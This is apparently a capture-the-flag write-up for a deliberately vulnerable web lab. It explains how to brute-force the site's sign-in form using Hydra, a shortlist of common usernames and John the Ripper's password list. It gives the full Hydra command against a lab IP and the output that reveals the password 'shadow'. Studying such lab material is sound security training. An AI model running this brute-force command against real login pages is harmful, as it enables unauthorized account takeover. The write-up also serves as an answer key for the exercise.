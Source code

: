 # Breach: Bruteforce


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Go to the sign in page (either `/index.php?page=signin` or `/?page=signin`).

> When you try to log in, the form redirect you to the page :<br>
> `/?page=signin&username=_____&password=_____&Login=Login`<br>

> You notice also that an image is displayed, saying "WrongAnswer".<br>
> You can deduce that when the login is correct, the image "WrongAnswer" will not be displayed.


#### Step 2:

Let's try to bruteforce a login. We will use Hydra to do so.

- Install `hydra` if you haven't already.


#### Step 3:

Let's get the list of most common usernames and passwords.

- You can find a list of ~3.5k common passwords in `/usr/share/wordlists/john.lst`.
  - This list is native to Kali Linux.
  - But you can find it on the official repo of John The Ripper.<br>
    [john-the-ripper/run/password.lst](https://github.com/pmittaldev/john-the-ripper/blob/master/run/password.lst).

- The repo SpecLists gives a quite exhaustive list of usernames.<br>
  [SecLists/Usernames/top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
```txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
```

#### Step 4:

Use Hydra to bruteforce a login.

- The `-vV` flag is used to display the login attempts.
- The `-L top-usernames-shortlist.txt` flag is used to specify the username list.
- The `-P /usr/share/wordlists/john.lst` flag is used to specify the password list.
- Next, the host, with `-s <port>` to specify the port number.
- `http-get-form <request>` option says that we are trying to log in using a GET request.<br>
  The `<request>` syntax is as follows: `<path>:<form_fields>:<success_or_failure_condition>`
  - The form is located at the root of the website. So we use `/` as path.
  - The form has 4 fields: `page`, `username`, `password` and `Login`.
    - `page` is always `signin`.
    - `username` is the username we are trying. So we use `^USER^`.
    - `password` is the password we are trying. So we use `^PASS^`.
    - `Login` is always `Login`.
  - If the image `WrongAnswer.gif` is displayed, it's a fail.<br>
    So we use `F=<img src=\"images/WrongAnswer.gif\" alt=\"\">`.<br>
    - The `F=` is used to specify the failure condition.
    - And it is followed by the HTML code of the image `WrongAnswer.gif`.

- The full command is:
```bash
hydra -vV -L top-usernames-shortlist.txt -P /usr/share/wordlists/john.lst 192.168.192.18 -s 4243 http-get-form "/:page=signin&username=^USER^&password=^PASS^&Login=Login:F=<img src=\"images/WrongAnswer.gif\" alt=\"\">"
```


> We get the lines :
> ```
> ...
> [4243][http-get-form] host: 192.168.192.18   login: root   password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: admin  password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: test   password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: guest  password: shadow
> [4243][http-get-form] host: 192.168.192.18   login: info   password: shadow
> ...
> ```
> So we deduce that the password is `shadow`, and that the username doesn't matter.


#### Step 5:

- Log in using the password `shadow` (the username doesn't matter).


---

[[Back to main page](/#darkly)]
